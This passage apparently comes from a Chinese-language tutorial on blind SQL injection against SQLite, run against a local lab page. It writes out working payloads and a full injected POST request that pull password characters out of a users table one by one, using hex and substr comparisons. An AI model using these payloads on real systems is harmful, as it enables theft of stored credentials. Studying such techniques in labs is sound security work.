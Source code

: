 现在，让我们开始提取数据吧，SQL查询如下：

```
Select hex(substr(password,1,1)) from users limit 1 offset 0
```

在SQL盲注中payload则为：

```
and (Select hex(substr(password,1,1)) from users limit 1 offset 0)&gt;hex(‘some_char’)
```

让我们开始提取数据的第一个字符吧，payload：

```
and (Select hex(substr(password,1,1)) from users limit 1 offset 0) &gt; hex('k')
```

注入请求：

```
http://127.0.0.1/sqlite-lab/index.php
Post body data
tag=ubuntu' and (Select hex(substr(password,1,1)) from users limit 1 offset 0) &gt;hex('a')-- -&amp;search=Check+Plan
```

[![](./img/85552/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t016a9fa4fbdf770484.png)

页面内容与之前一致，我们可以确定第一个字符在'a'之后，将字符换位'k‘，然后我们就可以看到页面不一致。

[![](./img/85552/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01ee754a7f318e06c7.png)

于是得到第一个字符位于'a'到'k'之间。后续猜解过程与前面猜解表名和列名一致，重复猜解动作直到猜解出所有字符为止。

<br>

**致谢**

特别感谢IndiShell Crew 和 Myhackerhouse给我的灵感。

<br>

**参考链接**

[https://www.sqlite.org/](https://www.sqlite.org/) 
